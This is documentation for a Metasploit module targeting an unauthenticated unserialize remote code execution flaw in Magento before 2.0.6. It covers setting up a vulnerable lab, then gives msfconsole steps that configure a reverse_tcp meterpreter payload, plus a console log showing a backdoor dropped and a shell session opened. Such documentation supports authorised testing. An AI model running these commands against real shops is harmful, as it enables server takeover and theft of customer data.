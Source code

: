 ## Vulnerable Application

Magento is a popular open-source e-commerce platform written in PHP. An unserialization
vulnerability exists in the product that allows an unauthenticated user to gain arbitrary
code execution.

Magento Community and Enterprise editions before 2.0.6 are affected. The magento_unserialize module
was specifically tested against version 2.0.6, on Ubuntu 14.04 and Debian.

For testing purposes, you can download the vulnerable
applications [here](https://www.exploit-db.com/apps/d34a83e80f927d7336cc8ef37a9867f4-magento2-2.0.5.tar.gz).

### Install

To set up a vulnerable version of Magento, please follow these steps. This is specific to
Ubuntu 14, and assumes you are installing Magento under /var/www/html/.

1. Set up a [Ubuntu](http://www.ubuntu.com/) box.
2. Open a terminal, and enter: ```sudo apt-get install apache2```
3. Enter: ```sudo apt-get install php5```
4. Enter: ```sudo a2enmod rewrite```
5. Add the following content to /etc/apache2/sites-enabled/000-default.conf, inside the virtual block:

```
<Directory /var/www/html>
  Options Indexes FollowSymLinks MultiViews
  AllowOverride All
  Order allow,deny
  allow from all
</Directory>
```

6. Download the [vulnerable Magento app](https://www.exploit-db.com/apps/d34a83e80f927d7336cc8ef37a9867f4-magento2-2.0.5.tar.gz)
7. Extract the compressed file: ```tar -xf magento2-2.0.5.tar.gz```
8. Move the files and directories of magento2-2.0.5 to /var/www/html/ (make sure .htaccess is copied too)
9. In terminal, enter: ```sudo chmod 644 /var/www/html/.htaccess```
10. Enter: ```sudo service apache2 restart```
11. Enter: ```sudo apt-get install mysql-server-5.6```. And follow the installation instructions of MySQL.
12. Enter: ```sudo apt-get install php5-mysql```
13. Enter: ```sudo apt-get install php5-mcrypt```
14. Enter: ```sudo php5enmod mcrypt```
15. Enter: ```sudo apt-get install php5-xsl php5-curl php5-intl```
16. Enter: ```sudo service apache2 restart```
17. cd to /var/www/html, enter: ```sudo mkdir tmp```, and cd to tmp
18. In tmp, do: ```curl -sS https://getcomposer.org/installer | php```
19. Enter: ```sudo mv composer /usr/local/bin/composer```
20. In /var/www/html, do: ```composer install```
21. You will be asked for a username (public key) and password (private key). You can register
    for one here: https://marketplace.magento.com/
22. Back to terminal, enter: ```mysql -h localhost -u root -p[password]```
23. In mysql, enter: ```create database magento```, and exit
24. Go to http://localhost with a browser, and install Magento through the web interface.
25. After installation, back to Magento directory, and enter: ```sudo rm -rf var/cache/*```
26. Enter: ```sudo rm -rf var/generation/*```
27. Enter: ```sudo rm -rf var/page_cache/*```
28. cd to /var/www/html/bin
29. Enter: ```sudo php magento deploy:mode:set developer```. It should say that you're in developer mode.
30. Enter: ```sudo php magento setup:static-content:deploy```
31. Enter: ```sudo php magento indexer:reindex```
32. Enter: ```sudo chmod -R 777 /var/www/html```
33. Go to http://localhost, you should see Magento up and running.
34. From Magento, log in as admin, and create a product. After creating one, make sure this product
    is:
    * Either includes a shipping address, or does not have a weight.
    * Searchable from the front-end.

If at some point the IP (base URL) of Magento has changed, then you will need to do these steps to update:

1. From the terminal, do: ```mysql -h localhost -u [username] -p[password]```
2. In the SQL prompt, do: ```use [magento database name]```
3. Do: ```select * from core_config_data;```, you should see both web/unsecure/base_url (config ID 2) and web/secure/base_url (config ID 3) with the hardcoded IP.
4. Do: ```update core_config_data set value='http://[IP]/' where config_id=2;```
5. Do: ```update core_config_data set value='https://[IP]/' where config_id=3;```
6. Back to the Magento directory, do: ```sudo rm -rf var/cache/*```
7. Also do: ```sudo rm -rf var/generation/*```
8. Also do: ```sudo rm -rf var/page_cache/*```
9. Browse to Magento again with the new IP, it should be up and running again.

## Verification Steps

1. Start msfconsole
2. Do: ```exploit/multi/http/magento_unserialize```
3. Do: ```set RHOST [IP]```
4. Do: ```set PAYLOAD php/meterpreter/reverse_tcp```
5. Do: ```set LHOST [IP]```
6. Do: ```exploit```
7. And you should get a session

## Options

## Scenarios

```
msf exploit(magento_unserialize) > check
[*] 192.168.1.108:80 The target appears to be vulnerable.
msf exploit(magento_unserialize) > exploit

[*] Started reverse TCP handler on 192.168.1.94:4444 
[+] 192.168.1.108:80 - generated a guest cart id
[+] 192.168.1.108:80 - backdoor done!
[*] Sending stage (33721 bytes) to 192.168.1.108
[*] Meterpreter session 6 opened (192.168.1.94:4444 -> 192.168.1.108:46835) at 2016-06-02 17:09:34 -0500
[+] 192.168.1.108:80 - Deleted lP5UgbUBLm1sWN25gWfZBqYKms.php

meterpreter > 
```

